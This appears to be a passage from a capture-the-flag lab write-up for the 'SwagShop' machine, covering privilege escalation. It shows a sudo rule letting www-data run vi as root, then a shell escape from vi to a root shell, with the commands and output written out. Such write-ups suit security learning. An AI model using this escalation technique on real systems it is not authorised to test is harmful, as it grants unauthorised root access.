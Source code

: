 # 15 - PrivEsc

# Sudo
```bash
www-data@swagshop:/var/www/html$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

Privilege Escalation turns out to be easier than what I expected. Vi has builtin code execution mechanism.


```bash
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/mage
vi>:!/bin/bash -i


root@swagshop:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
```




